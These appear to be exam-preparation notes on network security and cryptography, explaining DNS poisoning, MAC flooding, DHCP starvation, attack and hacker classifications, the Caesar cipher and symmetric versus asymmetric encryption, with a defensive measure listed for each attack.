

**How it works:** DNS traditionally uses **UDP**, which is connectionless and easily spoofed. A response is accepted if it matches the **query's transaction ID and source port**. An attacker who can **guess or brute-force** those values and reply **faster than the real server** gets their forged answer cached — and it stays cached for the whole **TTL**, affecting **every user** of that resolver. (This is the **Kaminsky attack**, disclosed in 2008.)

**Other routes:** compromising the DNS server itself · altering the victim's **local hosts file** with malware · a **rogue DHCP server** handing out a malicious DNS address · a compromised home router.

**Impact:** mass redirection to phishing sites (**pharming**), malware distribution, censorship, email interception, and complete MITM.

**Prevention:**
1. **DNSSEC** — cryptographically signs DNS records so forged answers are rejected. **The definitive fix.**
2. **DNS over HTTPS (DoH) / DNS over TLS (DoT)** — encrypts and authenticates the query channel.
3. **Source-port randomisation** and random query IDs — makes guessing infeasible.
4. **Keep DNS software patched** (BIND, Unbound, Windows DNS).
5. **Restrict recursion** to internal clients; do not run an open resolver.
6. **Use trusted resolvers** and monitor for unexpected changes.
7. **Short TTLs** limit the damage window.
8. On the client side: **check the HTTPS certificate** — a poisoned site cannot present a valid one; and **scan for malware** that edits the hosts file.

**Previous Year Question List from this Topic:**

- [(b) What is an ARP poisoning attack, and how does it work?](../written-answers/computer-network-security.md?plain=1#L60)
- [What do you mean by a DNS poisoning attack, and how does it work?](../written-answers/computer-network-security.md?plain=1#L534)
- [Explain ARP Spoofing attack with diagram. Why ARP spoofing attacker used to launch Man-in-the-Middle attack.](../written-answers/computer-network-security.md?plain=1#L745)
- [Difference between spoofing and sniffing](../written-answers/computer-network-security.md?plain=1#L781)


---

### Layer 2 Attacks — MAC Flooding and DHCP Starvation

#### MAC flooding

**MAC flooding** is an attack against a **network switch**, in which the attacker floods it with a huge number of frames carrying **fake source MAC addresses**, in order to **overflow the switch's MAC address table (CAM table)**.

**Why it works:** a switch keeps a **CAM (Content Addressable Memory) table** mapping MAC addresses to ports, so it can forward frames only to the correct port. That table has a **fixed, finite size** (a few thousand to a few tens of thousands of entries).



#### The impact on the switch

| Impact | Explanation |
|---|---|
| **Fail-open → acts as a hub** | The switch **floods all frames to all ports**, destroying the isolation that a switch is supposed to provide |
| **Traffic sniffing** | The attacker captures **everyone's** traffic — the main goal |
| **Performance collapse** | Every frame is broadcast, so bandwidth and CPU are wasted network-wide |
| **Denial of Service** | Legitimate MAC entries are evicted, causing connectivity problems |
| **Enables further attacks** | Sniffed credentials lead to MITM, session hijacking and lateral movement |

> ### "How does the attacker benefit?"
> The attacker converts a **secure switched network back into an insecure shared network**. On a normal switch they would see only their own traffic; after MAC flooding they can **passively capture every packet on the VLAN** — plaintext passwords, FTP and Telnet sessions, internal emails, database queries and session cookies — without the victims noticing anything except a slow network.

**Prevention of MAC flooding**

| Measure | How it helps |
|---|---|
| **Port Security** (the primary defence) | Limit the number of MAC addresses learned per port (e.g. `switchport port-security maximum 2`) and shut down / restrict / protect the port when exceeded |
| **Sticky MAC learning** | The first learned MAC is bound permanently to the port |
| **802.1X port authentication** | Only authenticated devices may use a port |
| **VLAN segmentation** | Confines the damage to one small broadcast domain |
| **MAC address filtering / static entries** | For servers and critical hosts |
| **Storm control and rate limiting** | Caps the frame rate per port |
| **Monitoring** | Alert on rapid CAM table growth or MAC flapping |
| **Encryption** | Even sniffed traffic is useless if it is encrypted |
| **Disable unused ports** | Removes the attacker's entry point |

#### DHCP starvation

**DHCP starvation** is a Denial-of-Service attack in which an attacker **requests every available IP address from the DHCP server** using **spoofed MAC addresses**, until the DHCP pool is **exhausted** and no legitimate device can obtain an address.



**The two stages — and why the second matters more:** starvation alone is just a denial of service. Its real purpose is usually to **clear the field for a ROGUE DHCP SERVER**. Once the legitimate server has no addresses left, the attacker's own DHCP server answers every new request, handing out configurations that name **the attacker's machine as the default gateway and DNS server** — giving a complete, silent man-in-the-middle position over every newly connected device.

**Related attacks in this family:** **rogue DHCP server**, **DHCP spoofing**, and **DHCP-based MITM**. *(A "DHCP attack in MITM" question is asking exactly this chain: starve the real server, then impersonate it.)*

**Prevention of DHCP starvation**

| Measure | How it helps |
|---|---|
| **DHCP Snooping** (the primary defence) | The switch marks uplink ports to the real DHCP server as **trusted** and all access ports as **untrusted**; DHCP OFFER/ACK messages arriving on an untrusted port are **dropped**, killing rogue servers |
| **Port Security** | Limits MAC addresses per port, so an attacker cannot present thousands of fake MACs |
| **DHCP rate limiting** | Caps DHCP messages per second per port |
| **IP Source Guard** | Uses the DHCP snooping binding table to block spoofed source IPs |
| **Dynamic ARP Inspection** | Uses the same binding table to stop the follow-on ARP spoofing |
| **802.1X** | Only authenticated devices reach the DHCP service at all |
| **Static IP / reservations** for critical devices | They are unaffected by pool exhaustion |
| **Monitoring** | Alert on abnormal DHCP request rates and on unexpected DHCP servers |

**Previous Year Question List from this Topic:**

- [What is MAC flooding? How to prevent MAC flooding?](../written-answers/computer-network-security.md?plain=1#L454)
- [What is DHCP starvation and how DHCP starvation work with diagram? Write down the related attack introduced by DHCP starvation?](../written-answers/computer-network-security.md?plain=1#L596)
- [What is MAC flooding attack? What is the impact of this switch?](../written-answers/computer-network-security.md?plain=1#L628)
- [(b) What is DHCP Starvation Attack? Explain briefly.](../written-answers/computer-network-security.md?plain=1#L900)
- [What is MAC Flood in Switch? How attacker gets benefitted from it?](../written-answers/computer-network-security.md?plain=1#L966)
- [How to attack DHCP server in MIMA?](../written-answers/computer-network-security.md?plain=1#L216)


---

### Active vs Passive Attacks, and Types of Attacker

#### Passive attacks

A **passive attack** attempts to **learn or make use of information from the system but does NOT affect system resources**. The attacker only **listens**.

| Type | Description |
|---|---|
| **Eavesdropping / Sniffing** | Capturing traffic to read message contents |
| **Traffic analysis** | Even if the content is encrypted, observing **who talks to whom, how often, how much and when** reveals a great deal |
| **Shoulder surfing, footprinting, reconnaissance** | Passive information gathering |

#### Active attacks

An **active attack** attempts to **alter system resources or affect their operation**. The attacker **modifies, injects, deletes or disrupts**.

| Type | Description |
|---|---|
| **Masquerade / Spoofing** | Pretending to be a different entity |
| **Replay** | Capturing a valid message and re-sending it later |
| **Modification of messages** | Altering the content in transit |
| **Denial of Service** | Preventing legitimate use |
| **Malware injection, SQL injection, MITM with alteration, session hijacking** | |

#### The comparison

| Point | **Passive Attack** | **Active Attack** |
|---|---|---|
| **Action** | **Only observes / listens** | **Modifies, injects or disrupts** |
| **Data modified?** | ❌ **No** | ✅ **Yes** |
| **System resources affected?** | ❌ No | ✅ Yes |
| **Which CIA property is violated** | **Confidentiality** | **Integrity and/or Availability** |
| **Detection** | **Very difficult** — it leaves no trace | **Easier** — the damage or anomaly is visible |
| **Prevention** | **Possible** — mainly through **encryption** | **Difficult to prevent**; the emphasis is on **detection and recovery** |
| **Main strategy** | **PREVENT** it (encrypt everything) | **DETECT** it and recover quickly |
| **Harm to the victim** | Loss of privacy/secrets | Direct damage, corruption or downtime |
| **Examples** | Eavesdropping, sniffing, traffic analysis, reconnaissance | DoS, MITM with alteration, masquerade, replay, SQL injection, malware |

#### Spoofing vs Sniffing

| Point | **Spoofing** | **Sniffing** |
|---|---|---|
| **Nature** | **ACTIVE** attack | **PASSIVE** attack |
| **What it does** | **Pretends to be someone else** — forges an identity (IP, MAC, email, caller ID, website) | **Captures and reads** traffic passing over the network |
| **Modifies data?** | ✅ Yes — falsifies headers/identity | ❌ No — only listens and copies |
| **Detection** | Moderately detectable | **Very hard to detect** |
| **Goal** | Gain **unauthorised access** or misdirect traffic | Gain **information** — passwords, data |
| **CIA violated** | **Integrity / Authentication** | **Confidentiality** |
| **Tools** | hping, Ettercap, custom packet crafting | **Wireshark, tcpdump**, Ettercap |
| **Defence** | Authentication, digital signatures, **ingress filtering**, DAI, DNSSEC | **Encryption (HTTPS, VPN, SSH)**, switched networks, port security |
| **Types** | IP spoofing, **MAC spoofing**, **ARP spoofing**, **DNS spoofing**, email spoofing, caller-ID spoofing | Passive sniffing (on a hub), active sniffing (after MAC flooding or ARP spoofing) |

> **They are often combined:** the attacker **spoofs** (ARP spoofing) in order to **sniff** — spoofing puts them in the path, sniffing extracts the value.

#### What is a spoofed packet?

A **spoofed packet** is a network packet whose **source address field has been deliberately falsified** so that it appears to come from a different, usually trusted, machine.

**Why attackers use it:**
1. **Hide their identity** — the victim's logs record the forged address, not the attacker's.
2. **Bypass IP-based access controls** — pretend to be an internal or whitelisted host.
3. **Launch amplification/reflection DDoS** — put the **victim's** IP as the source so that thousands of servers send their large replies to the victim (DNS and NTP amplification, the **Smurf attack**).
4. **SYN flooding** — the spoofed source means the SYN-ACK goes nowhere and the connection stays half-open.
5. **Session hijacking and TCP sequence prediction** — inject packets into an established session.
6. **Blind attacks** on trust relationships (the classic Mitnick attack).

**Defences:** **ingress/egress filtering (BCP 38)** at the ISP and network edge — reject packets whose source address could not legitimately come from that direction; **reverse path forwarding (uRPF)** checks; **authentication rather than IP-based trust**; **IPsec** and TLS; randomised TCP initial sequence numbers; and firewall/IDS anomaly detection.

#### Types of hacker

| Type | Motivation | Authorisation | Legality |
|---|---|---|---|
| **White Hat** (ethical hacker) | **Improve security** | ✅ **Authorised** — hired and given written permission | ✅ **Legal** |
| **Black Hat** (cracker) | **Personal gain, damage, theft, espionage** | ❌ **None** | ❌ **Illegal — criminal** |
| **Grey Hat** | **Curiosity, reputation**; often discloses the flaw afterwards, sometimes demanding a fee | ❌ **None**, but no malicious intent | ⚠️ **Still illegal** — good intentions do not make unauthorised access lawful |

| Point | **White Hat** | **Grey Hat** | **Black Hat** |
|---|---|---|---|
| **Permission** | ✅ Yes, in writing | ❌ No | ❌ No |
| **Intent** | Defensive, constructive | Mixed — usually non-malicious | **Malicious** |
| **Reports the flaw?** | ✅ Always, to the owner | ⚠️ Usually, but publicly or for a fee | ❌ No — **exploits or sells** it |
| **Causes harm?** | No | Usually not, but risks it | **Yes** |
| **Legal status** | Legal | **Illegal** | **Illegal** |
| **Also known as** | Ethical hacker, penetration tester | — | Cracker, cyber criminal |
| **Example** | A bank hires a firm to penetration-test its app | Someone scans a company's server uninvited, finds a bug and emails them | Someone steals a customer database and sells it |

> **Other categories:** **Blue Hat** (an outside expert invited to test before a product launch, or an attacker motivated by revenge) · **Red Hat** (vigilantes who attack black hats) · **Script Kiddie** (an unskilled attacker using ready-made tools) · **Hacktivist** (politically motivated) · **State-sponsored / APT** (government-backed espionage groups) · **Insider threat** (a current or former employee).

> **"Hacking a system without cracking it, only to find bugs and vulnerabilities" is called ETHICAL HACKING / PENETRATION TESTING**, performed by a **White Hat hacker** under written authorisation.

**Previous Year Question List from this Topic:**

- [Write down the 10 most Cyber attacks. Difference among Black Hat hacker, Grey hat hacker and white hat hacker.](../written-answers/computer-network-security.md?plain=1#L310)
- [Difference between active and passive atack.](../written-answers/computer-network-security.md?plain=1#L393)
- [Write down the difference between Active and Passive attack.](../written-answers/computer-network-security.md?plain=1#L566)
- [Difference between spoofing and sniffing](../written-answers/computer-network-security.md?plain=1#L781)
- [Which security attacks (given) occur on client side or server side?](../written-answers/computer-network-security.md?plain=1#L802)
- [What is a spoofed packet, and how can it be used in network attacks?](../written-answers/computer-network-security.md?plain=1#L4246)
- [Hacking a system without cracking the system, only for finding bugs and vulgarities is called?](../written-answers/computer-network-security.md?plain=1#L4752)


---

### The Major Cyber Attacks — A Master List

*(Several questions ask simply for "the top 10 cyber attacks" or "ten attacks through the internet". Learn this list with one line each.)*

| # | Attack | One-line description |
|---|---|---|
| 1 | **Phishing** | Fraudulent messages tricking the victim into revealing credentials |
| 2 | **Malware** (virus, worm, trojan, spyware) | Malicious software that damages, steals or takes control |
| 3 | **Ransomware** | Encrypts the victim's files and demands payment for the key |
| 4 | **DoS / DDoS** | Floods a service so that it becomes unavailable |
| 5 | **Man-in-the-Middle (MITM)** | Intercepts and possibly alters communication between two parties |
| 6 | **SQL Injection** | Malicious SQL entered into an input field to read or destroy a database |
| 7 | **Cross-Site Scripting (XSS)** | Injects malicious JavaScript into a web page viewed by other users |
| 8 | **Cross-Site Request Forgery (CSRF)** | Tricks a logged-in user's browser into performing an unwanted action |
| 9 | **Password attacks** (brute force, dictionary, credential stuffing, rainbow table) | Guessing or cracking credentials |
| 10 | **Zero-day exploit** | Attacks a vulnerability before a patch exists |
| 11 | **Social engineering** | Manipulating people rather than machines |
| 12 | **Insider threat** | Abuse by an employee or contractor |
| 13 | **DNS spoofing / poisoning** | Redirects users to a fake site |
| 14 | **ARP spoofing** | LAN-level redirection enabling MITM |
| 15 | **Session hijacking** | Stealing a session token to impersonate a logged-in user |
| 16 | **Supply chain attack** | Compromising a trusted vendor or software update (SolarWinds) |
| 17 | **Advanced Persistent Threat (APT)** | A long-term, stealthy, state-level intrusion |
| 18 | **Cryptojacking** | Secretly using the victim's hardware to mine cryptocurrency |
| 19 | **Buffer overflow** | Overwriting memory to execute the attacker's code |
| 20 | **Eavesdropping / packet sniffing** | Passively capturing network traffic |
| 21 | **Drive-by download** | Malware installed merely by visiting a compromised page |
| 22 | **Watering hole attack** | Compromising a site the target group frequently visits |
| 23 | **Botnet / IoT attack** | Hijacking thousands of devices for coordinated attacks |
| 24 | **Rogue Wi-Fi / Evil twin** | A fake access point that intercepts everything |
| 25 | **Spoofing** (IP, MAC, email, caller ID) | Forging an identity to gain trust or access |

#### Client-side vs server-side attacks

| Side | Meaning | Examples |
|---|---|---|
| **Client-side** | The attack executes **in the user's browser or on the user's machine** | **XSS** (the script runs in the victim's browser), **CSRF**, clickjacking, drive-by download, malicious browser extensions, phishing, malware on the endpoint |
| **Server-side** | The attack executes **on the web/application server** | **SQL injection**, command injection, file inclusion (LFI/RFI), server-side request forgery (SSRF), path traversal, insecure deserialisation, DoS against the server, buffer overflow on the server |

> **The classic pair:** **SQL Injection is server-side** (the malicious SQL runs in the database server), while **XSS is client-side** (the malicious JavaScript runs in other users' browsers). This distinction is a favourite short question.

**Previous Year Question List from this Topic:**

- [Let you procure a microfinance application and host it in your office's data centre. What kind of cyber-security threats should you be aware of and what steps w…](../written-answers/computer-network-security.md?plain=1#L250)
- [Write down the 10 most Cyber attacks. Difference among Black Hat hacker, Grey hat hacker and white hat hacker.](../written-answers/computer-network-security.md?plain=1#L310)
- [What is Cyber Security? Write down the top 10 cyber attack. Discuss about Ransomware and DDoS attack.](../written-answers/computer-network-security.md?plain=1#L341)
- [What is meant by Encryption and Decryption? What is Cyber security? Write down the top 10 cyber attack.](../written-answers/computer-network-security.md?plain=1#L370)
- [Which security attacks (given) occur on client side or server side?](../written-answers/computer-network-security.md?plain=1#L802)
- [Write down ten name of different attack through internet.](../written-answers/computer-network-security.md?plain=1#L836)
- [Write down the name of different attack through internet.](../written-answers/computer-network-security.md?plain=1#L920)

## Cryptography

### Cryptography, Encryption and Decryption

**Cryptography** is the science of **securing information by transforming it into an unreadable form**, so that only the intended recipient can read it. The word comes from the Greek *kryptos* (hidden) + *graphein* (writing).

#### The basic terminology

| Term | Meaning |
|---|---|
| **Plaintext** | The **original, readable** message |
| **Ciphertext** | The **encrypted, unreadable** message |
| **Encryption** | The process of converting **plaintext → ciphertext** |
| **Decryption** | The process of converting **ciphertext → plaintext** |
| **Key** | The secret value that controls the encryption/decryption |
| **Cipher / Algorithm** | The mathematical procedure used |
| **Cryptanalysis** | The science of **breaking** ciphers |
| **Cryptology** | Cryptography + Cryptanalysis |



#### Plaintext vs Ciphertext

| Point | **Plaintext** | **Ciphertext** |
|---|---|---|
| **Meaning** | The **original readable** message | The **encrypted unreadable** message |
| **Readability** | Understandable by anyone | **Meaningless** without the key |
| **Form** | Normal text, numbers, images, files | A scrambled sequence of bytes |
| **Security** | ❌ **None** — anyone who intercepts it can read it | ✅ **Secure** — useless to an interceptor |
| **Produced by** | The original author | The **encryption** algorithm |
| **Converted to the other by** | **Encryption** (using a key) | **Decryption** (using a key) |
| **Example** | `HELLO` | `KHOOR` (Caesar cipher, shift 3) |
| **Storage/transmission** | Never over an untrusted channel | Safe to transmit |

#### The five goals of cryptography

| Goal | Meaning | Achieved by |
|---|---|---|
| **Confidentiality** | Only the intended recipient can read it | **Encryption** |
| **Integrity** | The message has not been altered | **Hashing, MAC** |
| **Authentication** | The sender is who they claim to be | **Digital signature, MAC, certificates** |
| **Non-repudiation** | The sender cannot deny having sent it | **Digital signature** |
| **Access control** | Only authorised parties can use the resource | Keys + authorisation systems |

#### A worked example — the Caesar cipher

The **Caesar cipher** is a **shift cipher**: each letter is replaced by the letter **k positions further along** the alphabet, wrapping around at Z.

> **Encryption: C = (P + k) mod 26**
> **Decryption: P = (C − k) mod 26**
> where letters are numbered A = 0, B = 1, … Z = 25, and **k** is the key (the shift).

**Encrypting `HELLO` with k = 3:**

| Letter | P (number) | (P + 3) mod 26 | Ciphertext letter |
|---|---|---|---|
| H | 7 | 10 | **K** |
| E | 4 | 7 | **H** |
| L | 11 | 14 | **O** |
| L | 11 | 14 | **O** |
| O | 14 | 17 | **R** |

> **Ciphertext = `KHOOR`**

**Decrypting `KHOOR` with k = 3:** K(10) − 3 = 7 = H · H(7) − 3 = 4 = E · O(14) − 3 = 11 = L · O → L · R(17) − 3 = 14 = O → **`HELLO`** ✅

**The wrap-around:** encrypting **Z (25)** with k = 3 gives (25 + 3) mod 26 = 28 mod 26 = **2 = C**.

**Why it is insecure:** there are only **25 possible keys**, so a **brute-force attack** tries them all in a fraction of a second. It is also trivially broken by **frequency analysis**, because the letter frequencies of the plaintext are preserved. It is of **historical and educational value only**.

#### Classical cipher techniques

| Technique | Idea | Example |
|---|---|---|
| **Substitution** | Each symbol is **replaced** by another | Caesar, Monoalphabetic, **Playfair**, **Vigenère**, Hill |
| **Transposition** | The symbols are **rearranged**, not replaced | Rail Fence, Columnar transposition |
| **Product cipher** | Both, applied in multiple rounds | **DES, AES** |

**Modern ciphers by how they process data:**
- **Block cipher** — encrypts **fixed-size blocks** (DES: 64 bits; AES: 128 bits). Modes: ECB, **CBC, CTR, GCM**.
- **Stream cipher** — encrypts **one bit or byte at a time** (RC4, ChaCha20, A5/1). Fast, used where data arrives continuously.

#### The role of encryption in security

1. **Confidentiality of data in transit** — HTTPS/TLS, VPN, SSH, encrypted email.
2. **Confidentiality of data at rest** — full-disk encryption (BitLocker, LUKS), database and file encryption.
3. **Authentication** — proving identity through certificates and digital signatures.
4. **Integrity** — detecting any alteration (through authenticated encryption, GCM).
5. **Non-repudiation** — a signed transaction cannot be denied.
6. **Regulatory compliance** — PCI-DSS, GDPR and Bangladesh Bank guidelines **mandate** encryption of cardholder and customer data.
7. **Secure key exchange** over insecure channels (Diffie-Hellman, RSA).
8. **Protection against data breach** — stolen encrypted data is worthless without the keys.
9. **Enabling e-commerce and digital banking** — without encryption, online payment would be impossible.
10. **Secure backups** — protects data even if the tapes or cloud copies are stolen.

**Previous Year Question List from this Topic:**

- [Explain the concepts of encryption and decryption with an example.](../written-answers/computer-network-security.md?plain=1#L1014)
- [What is Encryption? What are the types? Explain the role of Encryption in security.](../written-answers/computer-network-security.md?plain=1#L1068)
- [What is Cryptography? Difference between Symmetric and Asymmetric encryption with example. Draw and design public key encryption using Hash function. Draw a dia…](../written-answers/computer-network-security.md?plain=1#L1326)
- [(খ) Plaintext ও Cipher text এর পার্থক্য লিখুন।](../written-answers/computer-network-security.md?plain=1#L1515)
- [(a) What is meant by Encryption and Decryption?](../written-answers/computer-network-security.md?plain=1#L1592)
- [The Caesar Cipher is a type of shift cipher. Shift Ciphers work by using the modulo operator to encrypt and decrypt messages. The Shift Cipher has a key K, whic…](../written-answers/computer-network-security.md?plain=1#L1671)
- [(গ) Plain Text and Cipher Text-এর মধ্যে মূল পার্থক্য কী? লিখুন।](../written-answers/computer-network-security.md?plain=1#L1750)
- [(ক) Data encryption বলতে কী বোঝায়? বহুল ব্যবহৃত কয়েকটি encryption পদ্ধতির নাম লিখুন।](../written-answers/computer-network-security.md?plain=1#L1770)


---

### Symmetric vs Asymmetric Encryption

#### Symmetric (secret-key / private-key) encryption

**ONE single shared key** is used for **both encryption and decryption**. Both parties must know the same secret key.



**Algorithms:** **AES** (Advanced Encryption Standard — 128/192/256-bit, the current standard), **DES** (56-bit, broken), **3DES**, **Blowfish, Twofish, RC4, RC5, IDEA, ChaCha20**.

> **Two symmetric key algorithms to name in an exam: AES and DES** (or Blowfish, 3DES).

#### Asymmetric (public-key) encryption

**TWO mathematically related keys** are used — a **public key** (shared with everyone) and a **private key** (kept absolutely secret). **What one key encrypts, only the other can decrypt.**



> **The two directions — memorise this table, it answers several questions at once:**
>
> | Goal | Encrypt/Sign with | Decrypt/Verify with |
> |---|---|---|
> | **Confidentiality** (only the receiver can read it) | The **RECEIVER'S PUBLIC key** | The **RECEIVER'S PRIVATE key** |
> | **Authentication / Digital signature** (prove who sent it) | The **SENDER'S PRIVATE key** | The **SENDER'S PUBLIC key** |
>
> ### "What type of key is used to decrypt a message in PKI?"
> **The RECIPIENT'S PRIVATE KEY.** The sender encrypts with the recipient's *public* key; only the matching *private* key — which never leaves the recipient — can decrypt it.

**Algorithms:** **RSA**, **Diffie-Hellman** (key exchange only), **ECC** (Elliptic Curve Cryptography), **DSA**, **ElGamal**.

#### The comparison — the single most asked table in this topic

| Point | **Symmetric Encryption** | **Asymmetric Encryption** |
|---|---|---|
| **Number of keys** | **ONE** shared secret key | **TWO** — a public/private key **pair** |
| **Same key for both operations?** | ✅ **Yes** | ❌ **No** |
| **Key distribution** | ❌ **The major problem** — how do you share the secret key securely in the first place? | ✅ **Solved** — the public key can be published openly |
| **Speed** | **Very FAST** — 100 to 1000× faster | **SLOW** — heavy mathematics on very large numbers |
| **Suitable for** | **Bulk data** — files, disks, streaming, large messages | **Small data** — keys, hashes, signatures |
| **Key length** | 128 / 192 / **256 bits** | **2048 / 4096 bits** (RSA); 256 bits (ECC) |
| **Number of keys for n users** | **n(n−1)/2** — grows quadratically, unmanageable at scale | **2n** — one pair per user |
| **Confidentiality** | ✅ Yes | ✅ Yes |
| **Authentication / Non-repudiation** | ❌ **No** — both parties hold the same key, so either could have created the message | ✅ **Yes** — only the owner holds the private key |
| **Computational cost** | Low | **High** |
| **Algorithms** | **AES, DES, 3DES, Blowfish, RC4, IDEA** | **RSA, ECC, Diffie-Hellman, DSA, ElGamal** |
| **Also called** | Secret-key, private-key, shared-key | Public-key cryptography |
| **Example use** | Encrypting a 2 GB database backup; the actual data inside a TLS session | Exchanging the TLS session key; signing a document; SSL certificates |

#### Private key vs Public key

| Point | **Private Key** | **Public Key** |
|---|---|---|
| **Who holds it** | **ONLY the owner** | **Everyone** — it is published freely |
| **Secrecy** | **Absolutely secret** | **Not secret at all** |
| **Used to** | **Decrypt** messages sent to you; **SIGN** your messages | **Encrypt** messages to that person; **VERIFY** their signature |
| **Distribution** | Never distributed | Distributed via **digital certificates / a directory** |
| **If compromised** | **Catastrophic** — identity is stolen, all past traffic may be readable | No impact — it was already public |
| **Stored in** | A protected key store, an HSM, a smart card | A certificate, published by a CA |

#### The hybrid approach — how TLS/HTTPS actually works

Neither system alone is ideal: symmetric is fast but cannot distribute keys; asymmetric solves key distribution but is far too slow for bulk data. **Real systems use BOTH.**



> **In one line:** *asymmetric cryptography is used to securely exchange a symmetric key; symmetric cryptography then does all the actual work.* This is the design of **TLS/HTTPS, SSH, PGP and VPNs**.

**Previous Year Question List from this Topic:**

- [What type of key used for decrypt message of PKI?](../written-answers/computer-network-security.md?plain=1#L1152)
